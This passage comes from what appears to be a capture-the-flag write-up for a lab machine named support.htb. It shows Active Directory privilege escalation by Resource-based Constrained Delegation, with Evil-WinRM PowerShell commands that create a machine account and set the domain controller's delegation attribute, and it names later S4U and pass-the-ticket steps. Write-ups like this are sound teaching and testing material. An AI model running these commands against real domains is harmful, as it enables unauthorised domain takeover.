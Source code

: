 ## Privilege escalation

We have a plan of this attack:

1. Upload [Powermad](https://github.com/Kevin-Robertson/Powermad), [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) to the victim machine.
2. Create a computer object "test" and set it a `SPN` service with Powermad.
3. Configure Resource-based Constrained Delegation from "test" computer to "dc" computer with PowerView.
4. Perform a complete S4U attack (S4U2Self and S4U2Proxy) to "dc" computer's service with `getST.py` tool from `impacket`.
5. Perform pass-the-ticket and impersonate the user to gain access to the "dc.support.htb" with Administrator privileges with `smbexec.py` tool from impacket.

So, let's start our attack!

On the start we upload necessary files to a machine and import powershell modules.

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> gci
    Directory: C:\Users\support\Documents

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          8/5/2022   4:09 AM         135586 Powermad.ps1
-a----          8/5/2022   3:32 AM         770279 PowerView.ps1
-a----          8/5/2022   2:19 AM         441344 Rubeus.exe

*Evil-WinRM* PS C:\Users\support\Documents> import-module ./Powermad.ps1
*Evil-WinRM* PS C:\Users\support\Documents> import-module ./PowerView.ps1
```

Then, we create a new computer object named "test" (note that any Admin User without any other special privilege can create up until 10 Computer objects (MachineAccountQuota) and set them a SPN).

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> New-MachineAccount -MachineAccount test -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
Verbose: [+] Domain Controller = dc.support.htb
Verbose: [+] Domain = support.htb
Verbose: [+] SAMAccountName = test$
Verbose: [+] Distinguished Name = CN=test,CN=Computers,DC=support,DC=htb
[+] Machine account test added
```

We can check if computer object created with PowerView:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer test
```

Our next step is to configure the Resource-based Constrained Delegation with PowerView. With last command we check if that worked.

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> $targetComputer = "DC.SUPPORT.HTB"
*Evil-WinRM* PS C:\Users\support\Documents> $ComputerSid = Get-DomainComputer test -Properties objectsid | Select -Expand objectsid
*Evil-WinRM* PS C:\Users\support\Documents> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
*Evil-WinRM* PS C:\Users\support\Documents> $SDBytes = New-Object byte[] ($SD.BinaryLength)
*Evil-WinRM* PS C:\Users\support\Documents> $SD.GetBinaryForm($SDBytes, 0)
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
```